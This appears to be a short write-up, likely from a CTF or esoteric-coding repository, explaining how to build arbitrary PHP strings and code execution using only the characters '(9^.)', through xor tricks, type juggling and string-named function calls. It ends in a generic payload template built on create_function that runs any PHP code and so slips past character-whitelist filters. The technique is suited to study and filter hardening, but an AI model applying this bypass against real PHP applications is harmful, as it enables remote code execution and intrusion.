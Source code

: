 # charset
```
(9^.)
```

# How it works
- `9^99` -> `106`
  - use xor to generate numbers
- `(9).(9)` -> `'99'`
  - use `.` to concat numbers into strings
- `'09'^'1069'^'99'` -> `'80'`
  - xor 2 strings to get a string
- `'80'^0` -> `80`
  - (ab)use type juggling to cast a string to an int
- Using a combination of the above tricks, you can get all of the digits 0-9
- Can construct any string `/[0-9]+/` by concatenating digits
- Can obtain any number by casting to int 
- Constructing arbitrary strings requires a bit more work...
  - `(99999999999...)` -> `INF`
    - 309 9s gives us `INF`
  - `(INF).(9)` -> `'INF9'`
    - Can now obtain char values in `/[a-zA-Z]/` range!
    - e.g. `'INF9'^'00'^'33'^'99'` -> `'st'`
  - the only primitive we have for initially obtaining strings is concat, which gives us a length-2 string
  - we can generate `/[a-z]{2,}|[A-Z]{2,}/` , but getting single-character strings is not possible
- `'funcname'(param)`
  - call functions by simply calling their string name
  - function names are case-insensitive
- `strtok(0)` -> `false`
  - call strtok on a number to get `false`
  - `=== ('st'+'rt'+'OK')(0)`
- `(9).false` -> `'9'`
  - concat number with `false` to get a length-1 string
- `'rw'^'99'^'9'` -> `'r'`
  - extract first char of any string with xor
- Can now build arbitrary strings `/[a-zA-Z]/`
- `'CHr'(num)`
  - generate other characters (e.g. spaces)
- Can now build any string at all! `/.*/`
- `str_getcsv("a,b")` -> `["a", "b"]`
  - create string arrays by parsing a CSV
- `func(...["a", "b"])`
  - use spread operator to pass multiple arguments to a function
- `create_function("", "PAYLOAD")()`
  - use `create_function` to create a function w/ arbitrary PHP code and then call it
- Final payload looks like: `'create_function'(...str_getcsv(',"$PAYLOAD"'))`